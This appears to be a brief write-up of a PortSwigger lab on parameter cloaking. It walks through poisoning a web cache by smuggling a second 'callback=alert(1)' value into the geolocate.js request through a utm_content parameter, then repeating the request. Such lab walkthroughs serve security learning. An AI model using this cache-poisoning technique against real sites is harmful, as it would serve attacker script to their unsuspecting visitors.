




# Parameter cloaking

## This lab is vulnerable to [web cache poisoning](https://portswigger.net/web-security/web-cache-poisoning) because it excludes a certain parameter from the cache key. There is also inconsistent parameter parsing between the cache and the back-end. A user regularly visits this site's home page using Chrome.

## To solve the lab, use the parameter cloaking technique to poison the cache with a response that executes `alert(1)` in the victim's browser.

### step1

send geolocate.js to repeter

### step2

send param minier to rails param miner cloaking scan

### step3

add _&utm_content=x;callback=akzldka&ipy1trc2=1_
final url _GET /js/geolocate.js?callback=setCountryCookie&utm_content=x;callback=akzldka&ipy1trc2=1_

### step4

payload:alert(1)
_GET /js/geolocate.js?callback=setCountryCookie&utm_content=x;callback=alert(1)_
send request many times to solve the lab

